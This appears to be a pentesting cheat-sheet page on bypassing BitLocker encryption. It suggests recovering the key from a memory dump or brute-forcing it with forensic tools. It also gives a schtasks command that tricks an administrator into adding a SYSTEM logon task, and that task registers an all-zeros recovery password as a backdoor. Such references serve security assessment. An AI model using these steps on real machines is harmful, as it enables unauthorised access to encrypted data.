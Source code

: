 # BitLocker

## Bypassing Bitlocker

> Bitlocker uses **2 passwords** :
>
> * The one used by the user,
> * The recovery password (48 digits).
>
> Try to search for the recovery password in : **C:\Windows\MEMORY.DMP** (memory dump).
>
> You can get this file and a copy of the filesytem and then use **Elcomsoft Forensic Disk Decryptor** to get the content (this will only work if the password is inside the memory dump).
>
> You could also force the memory dump using **NotMyFault** of Sysinternals, but this will reboot the system and has to be executed as Administrator.
>
> You could also try a **bruteforce attack** using _Passware Kit Forensic_.

### Check if enabled

```powershell
# cmd
manage-bde -status
# powershell
Get-BitLockerVolume
```

### Social Engineering

Finally, you could make the user add a new recovery password making him executed as administrator:

```powershell
schtasks /create /SC ONLOGON /tr "c:/windows/system32/manage-bde.exe -protectors -add c: -rp 000000-000000-000000-000000-000000-000000-000000-000000" /tn tarea /RU SYSTEM /f
```

This will add a new recovery key (composed of 48 zeros) in the next login. To check the valid recovery keys you can execute:

```bash
manage-bde -protectors -get c:
```
